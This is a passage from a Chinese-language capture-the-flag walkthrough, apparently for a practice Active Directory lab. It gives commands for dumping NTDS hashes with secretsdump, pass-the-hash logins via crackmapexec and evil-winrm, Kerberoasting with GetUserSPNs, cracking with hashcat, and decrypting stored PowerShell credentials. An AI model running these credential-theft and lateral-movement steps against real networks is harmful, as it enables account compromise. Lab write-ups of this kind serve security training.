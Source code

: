 如前所述，我们可以使用`secretsdump.py`从之前解压缩的文件中获取散列值。

```
python3 /opt/impacket/examples/secretsdump.py -system system.hive         -ntds ntds.dit LOCAL > hashes3.txt
```

我们需要做一些格式化，只得到散列，这样我们就可以暴力破解它。现在您可以进行暴力破解并获得正确的散列

```
crackmapexec smb $IP -u lvetrova -H hashes3.txt
```

**5:柳德米拉的旗帜是什么？**

我们将使用上一个问题中获得的散列来连接到使用`Evil-WinRM`的系统

```
evil-winrm -i $IP -u lvetrova -H f220d3988deb3f516c73f40ee16c431d 
```

PowerShell 有一种存储加密凭据的方法，只有存储这些凭据的用户帐户才能访问这些凭据。要检索凭证并在脚本中使用它，需要从 XML 文件中读取它。我们将使用这个方法来获取用户的散列

`PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password`

**6:xyan 1d 3 的密码是什么？**

我们将使用带有`lvetrova`凭证的散列函数:

pass the hash 攻击是一种利用漏洞的攻击，攻击者窃取一个[哈希](https://searchsqlserver.techtarget.com/definition/hashing)用户凭证，在不破解它的情况下，重新使用它来欺骗认证系统在同一网络上创建一个新的认证会话。

传递散列主要是一种横向移动技术。这意味着黑客在已经损害设备之后，正在使用 pass hash 来提取额外的信息和凭证。

```
python3 /opt/impacket/examples/GetUserSPNs.py raz0rblack.thm/lvetrova -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -outputfile hashes4.txt
```

我们得到了 Xyan1d3 帐户的散列值，现在让我们来破解它。

```
hashcat -m 13100 hashes4.txt rockyou.txt
```

**7:xyan 1d 3 的旗帜是什么？**

使用上一步中找到的凭据登录。

```
evil-winrm -i $IP -u xyan1d3 -p cyanide9amine5628
```

使用 ques 5 中使用的相同技术来转储密码。

`PS C:\Users\xyan1d3> $Credential = Import-Clixml -Path "xyan1d3.xml"
PS C:\Users\xyan1d3> $Credential.GetNetworkCredential().password`

**8:根旗是什么？**

现在挑战的最艰难部分来了，特权升级。这让我困惑了好一会儿，但是在搜索了一下之后，我找到了如何继续下去的方法。
